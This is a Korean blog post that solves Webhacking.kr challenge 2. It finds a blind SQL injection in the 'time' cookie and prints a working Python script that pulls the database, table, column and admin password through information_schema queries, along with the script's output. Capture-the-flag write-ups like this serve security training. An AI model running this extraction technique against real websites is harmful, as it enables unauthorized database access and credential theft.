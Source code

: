 ```yaml
---
published: true
layout: "single"
title: "[Webhacking.kr] Challenge 문제풀이 - 2번"
category: "Webhacking.kr"
comments: true
---
```


오늘은 Webhacking.kr 챌린지의 2번 문제를 풀어보자.

![문제화면](https://user-images.githubusercontent.com/37629503/79815001-9975a080-83ba-11ea-85fa-297d556c3156.png)

위와같이 간단한 텍스트만 보여준다. 그럼 개발자도구를 열어서 소스코드를 확인해보자.

```html
<!--
2020-04-21 10:21:12
-->
<html>
    <head>
        <script src="chrome-extension://mooikfkahbdckldjjndioackbalphokd/assets/prompt.js"></script>
    </head>
    <body>
        <h2>Restricted area</h2>
        Hello stranger. Your IP is logging...
        <!-- if you access admin.php i will kick your ass -->
    </body>
</html>
```

예상한대로 위 소스코드에서 힌트를 얻을 수 있는데 `admin.php`에 접근하지 말라는 주석이 보인다. 그렇다면 우리는 바로 `admin.php`에 접속해보자. 그냥 문제 URL 뒤에 admin.php를 입력해주면된다.

![image](https://user-images.githubusercontent.com/37629503/79815256-2e789980-83bb-11ea-85b9-b8f32d32d7a5.png)

그럼 우리는 하나의 입력폼을 볼 수 있다. 패스워드를 입력하라고 나오는데 아마 이번 문제는 이 패스워드를 알아내는게 해결법인것 같다. 일단 여기서도 개발자도구를 열어서 소스코드를 확인해보자.

```html
<html>
    <head>
        <sipt src="chrome-extension://mooikfkahbdckldjjndioackbalphokd/assets/prompt.js"></script>
    </head>
    <body>
        <form method="post">
            type your secret password
            <input name="pw">
            <input type="submit">
        </form>
    </body>
</html>
```

아쉽게도 이번 페이지에서는 유의미한 정보를 얻을 수 없었다. 그렇다면 저번 문제처럼 쿠키값을 조작하는 문제가 아닐까 예측해본다. 마침 문제페이지에도 현재시각이 주석으로 나타나고있었다. 먼저 쿠키값을 확인해보자.

![image](https://user-images.githubusercontent.com/37629503/79815589-0b9ab500-83bc-11ea-9667-831347b559ac.png)

뭔가 쿠키값을 가지고 조작해 볼수 있을것 같다. 이전 페이지에서 현재 시각이 주석으로 나타나고 있었으니 `time`값을 변조해보도록 하자.

```html
<!--
2070-01-01 09:00:01
-->
```

이전 페이지로 돌아와서 time 값에 `and 1=1`을 추가해주니 시간 주석이 위와 같이 변했다. 그럼 이제 다른 값을 넣어서 주석이 어떻게 변화하는지 확인해보자.

```html
<!--
2070-01-01 09:00:00
-->
```

`and 1=2`를 추가했더니 주석이 또 바뀌었다. 두 번의 쿠키 조작을 통해 이 문제는 blind sql injection을 이용해서 해결해야하는 문제임을 알아냈다. 또한 값이 참일 경우에는 **09:00:01**을 값이 거짓일 경우에는 **09:00:00**을 반환한다는 사실도 알아냈다.

그렇다면 이제 SQL 쿼리문을 서버로 보내서 어드민 페이지의 비밀번호를 알아내보도록 하자. 먼저 현재 접속중인 데이터베이스의 이름과 테이블의 이름을 알아내야 한다. 나는 다음의 파이썬 코드를 이용해서 이름을 알아냈다. 물론 이 과정을 수작업으로 진행해도 좋다.

```python
import requests as req

def HttpRequest(d_name=None,c_name=None,t_name=None):
    global ch
    value=''
    for i in range(1,20):
        for key in keyword:
            if ch==0:
                cookies['time'] = 'substr((select database()),{},1)="{}"'.format(i,key)
            elif ch==1:
                cookies['time'] = 'substr((select group_concat(table_name) from information_schema.tables \
                where table_schema="{}"),{},1)="{}"'.format(db_name,i,key)
            elif ch==2:
                cookies['time'] = 'substr((select group_concat(column_name) from information_schema.columns where \
                table_name="{}"),{},1)="{}"'.format(table_name,i,key)
            elif ch==3:
                cookies['time'] = 'substr((select {} from {}),{},1)="{}"'.format(column_name,table_name,i,key)
            res = req.get(url,headers=headers,cookies=cookies)

            if "09:00:01" in res.text:
                value+=key
                print(value)
                break
            if key == '0':
                print("END")
                ch+=1
                return value

if __name__ == '__main__':
    url = 'https://webhacking.kr/challenge/web-02/'
    headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \
                AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
    cookies = {'PHPSESSID':'8p264id0afh6jme85rjj4plei4'}
    keyword = '_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
    ch=0
    db_name = HttpRequest()
    table_name = HttpRequest(d_name=db_name)
    column_name = HttpRequest(t_name=table_name)
    data = HttpRequest(c_name=column_name,t_name=table_name)

    print("============================")
    print("DB NAME = "+db_name)
    print("TABLE NAME = "+table_name)
    print("COLUMN NAME = "+column_name)
    print("data = "+data)
    print("============================")
```

위 코드를 실행하고 프로그램이 종료될 때까지 기다리면 다음과 같은 결과를 얻을 수 있다.

```text
============================
DB NAME = chall2
TABLE NAME = admin_area_pw
COLUMN NAME = pw
data = kudos_to_beistlab
============================
```

이 중 data 구문이 우리가 필요한 정보이므로 이 문자를 `admin.php` 페이지에 입력해보자.

![tempsnip](https://user-images.githubusercontent.com/37629503/79818541-0bea7e80-83c3-11ea-9536-4d215976e184.png)

문제 해결!
